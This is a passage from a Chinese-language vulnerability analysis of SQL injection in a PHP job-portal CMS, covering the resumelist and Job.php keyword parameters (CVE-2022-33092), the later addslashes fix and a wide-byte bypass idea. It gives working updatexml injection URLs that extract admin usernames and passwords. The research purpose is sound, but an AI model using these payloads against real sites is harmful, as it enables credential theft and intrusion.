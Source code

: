 #### 检查过滤代码

跟进查看，这里只对输入做了 trim 操作。  
![pFse7qS.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-63779f88f1ac89f43771d71dd0458f0534bc3196.png)  
经过一系列闭合操作，就可以构造出上述的 Payload 了。

```rb
/index.php/v1_0/home/jobfairol/resumelist?jobfair_id=1&amp;keyword=' (select/**/updatexml(0,concat(0xa,(select/**/concat(username,password)from/**/qs_admin)),0))))%23
```

#### 深入思考

这里有个疑问，使用了PDO还会有注入？  
跟进 SQL 执行的过程，发现 $sql 参数在预处理前已完成拼接，没有进行绑定的操作，后续直接 exec 了，估计是这个原因（如果不是的话，希望大佬点拨下）  
![pFseL5j.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-8afb8fce8b6e7ea0988bad197a49666d8ba55aeb.png)

#### 后续的修复代码

查看最新的源码（版本3.28.0），过滤使用了 addslashes 操作。  
![pFseoKf.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-d0e7601ad5ec8034353d3dd8b66dfbdce35c4e64.png)

#### 深入思考\*2

绕过 addslashes，一般配合代码中其他的操作，比如代码后还有urldecode、base64\_decode等。或者是在GBK编码下使用宽字节注入。

修改数据库编码后，跟进代码发现，在使用htmlspecialchars函数进行过滤操作时，我传入的值直接没了，挺神奇的，暂时找不到原因，不然在GBK环境下可以实现宽字节注入。

```rb
/index.php/v1_0/home/jobfairol/resumelist?jobfair_id=1&amp;keyword='%df'%2b(select/**/updatexml(0,concat(0xa,(select/**/concat(username,password)from/**/qs_admin)),0))))%23
```

![pFseqaQ.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-bd5287752890158cc2d15f1cfd664601ea4b3384.png)

### v3.5.1 SQL 注入｜Job.php

漏洞信息：  
[CVE - CVE-2022-33092 (mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-33092)

文件路径：v1\_0/controller/home/Job.php，keyword 参数

Payload：

```rb
/index.php/v1_0/home/job/index?keyword='+(select+updatexml(0,concat(0x1,(select/**/user())),0))+'
```

![pFsebVg.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a45b6dca84a26f86d2379e68bb9971348a0492ee.png)

#### 代码分析

基于前一个 sql 注入的思路，找到可控点，在 index 函数重点关注如下四个：

```php
$search_type = input('get.search_type/s', '', 'trim');
$keyword = input('get.keyword/s', '', 'trim');
$tag = input('get.tag/s', '', 'trim');
$sort = input('get.sort/s', '', 'trim');
```
